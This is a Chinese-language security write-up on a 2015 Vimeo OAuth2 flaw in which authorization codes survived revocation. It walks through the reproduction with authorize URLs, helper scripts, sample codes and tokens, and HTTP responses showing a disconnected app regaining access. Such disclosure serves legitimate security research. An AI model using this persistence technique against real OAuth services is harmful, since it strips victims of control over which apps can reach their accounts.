




## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


类型: OAuth API.





`getAccessToken.sh`


`me.sh`


`URL GET/POST data: POST METHOD:`

`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

## 漏洞描述
OAuth2 API允许用户将访问他们账户的权限授予第三方应用程序。当然，用户能够管理此类应用程序对其帐户的访问，并可能拒绝任何应用程序的访问。当某些用户拒绝对应用程序的访问时，所有的access_token都将被撤销并变得无效。但是不仅access_tokens应该被撤销，授权码(它是OAuth2授权流中使用的中间令牌)也必须被撤销。
在撤销访问时，Vimeo OAuth2 API没有撤销其授权代码。它可能被利用恢复访问用户帐户后，恶意应用程序撤销访问。

## 复现步骤
1)打开应用的OAuth2授权链接; <br>
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`


2)登录您的Vimeo帐户(如果需要的话)，点击允许;

3)从回调url复制code值，例如: <br>
`https://avuln.com/callback?state=0123456789abcdef&code=e1fa87cd449ae55b74445b31ac79450c14eeb657`

这里code值为`e1fa87cd449ae55b74445b31ac79450c14eeb657`

4)使用code值获取access_token:  <br>
```shell
$ ./getAccessToken.sh e1fa87cd449ae55b74445b31ac79450c14eeb657

{ 
  "access_token": "d3ac3bb53d1c4ebc3de7d28e4ed801c0", 
  "token_type": "bearer", 
  "scope": "public private", 
  "user": { 
    "uri": "/users/39285903",
    <... CUT OUT ... >
    }

```

5)检查access_token的有效性
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:10:29 GMTServer: nginxContent-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:10:29 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1239-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429625429.334602,VS0,VE203Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",< ... CUT OUT ... >}

```

6)重复步骤1中我的测试申请链接:
`https://api.vimeo.com/oauth/authorize?response_type=code&client_id=79658bbee0da8be5254a5137bc0fcc93f7059a2a&redirect_uri=https://avuln.com/callback&scope=public&state=0123456789abcdef`

7)重复步骤2登录到你自己的帐户(如果需要)，然后单击允许。

注意:不难想象应用程序需要用户再通过一次身份验证。许多应用程序不存储长期会话，而是强迫用户每天甚至经常登录/授权。

注2:OAuth提供程序通常允许使用`approval_prompt=auto`参数，这使得不需要用户再次单击allow。我没有发现这种可能性的Vimeo API，但如果这可能的，在这种情况下，恶意应用程序只需要把它的网站(或每当在互联网)像下面这样的:
```html
<html> 

</html>
```
这样的代码将“静默地”产生新的access_token值，在用户每次加载它时进行回调。


8)从回调url中复制code值并保存以备以后使用:
`https://avuln.com/callback?state=0123456789abcdef&code=82e24f835184f47cd83f249907e7b d5018bf62c9`

code值为`82e24f835184f47cd83f249907e7bd5018bf62c9`

9)进入帐户安全设置`https://vimeo.com/settings/apps`


10)从Apps部分断开应用程序(如果我的测试应用程序使用Dor1s Test1)


11)为了确保访问被拒绝，重复步骤5:
```shell
$ ./me.sh d3ac3bb53d1c4ebc3de7d28e4ed801c0

HTTP/1.1 401 Authorization Required
Date: Tue, 21 Apr 2015 14:23:55 
GMTServer: nginx
Content-Type: application/vnd.vimeo.error+json
Cache-Control: no-cache, max- age=315360000WWW-Authenticate: Bearer error="invalid_token"Expires: Fri, 18 Apr 2025 14:23:55 GMTContent-Length: 53Accept-Ranges: bytesVia: 1.1 varnishX-Served-By: cache- fra1245-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626235.146346,VS0,VE105Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "error": "A valid user token must be passed."}
```

12)使用步骤8中的code值，并将其交换为access_token:

```shell
$ ./getAccessToken.sh 82e24f835184f47cd83f249907e7bd5018bf62c9

{ 
  "access_token": "9eabdc746910ea39c07395ee1b69a2b9", 
  "token_type": "bearer",
   "scope": "public private",
    "user": { "uri": "/users/39285903",
    <... CUT OUT ...>
    }
```

13)检查access_token的有效性:
```shell
$ ./me.sh 9eabdc746910ea39c07395ee1b69a2b9
HTTP/1.1 200 OKDate: Tue, 21 Apr 2015 14:25:41 
GMTServer: nginx
Content-Type: application/vnd.vimeo.user+jsonCache-Control: no-cache, max-age=315360000Expires: Fri, 18 Apr 2025 14:25:41 GMTContent-Length: 2930Accept-Ranges: bytesVia: 1.1 varnishAge: 0X- Served-By: cache-fra1235-FRAX-Cache: MISSX-Cache-Hits: 0X-Timer: S1429626341.087757,VS0,VE201Vary: Accept,Vimeo-Client-Id,Accept-Encoding{ "uri": "/users/39285903",<... CUT OUT ...>}
```


## 漏洞影响

该漏洞允许恶意应用程序保持对受害者帐户的访问活动，即使访问已经被撤销。不仅绕过了授权，而且还剥夺了受害者管理应用程序访问的能力。


## 小结

OAuth相关的，后面在继续总结一下;

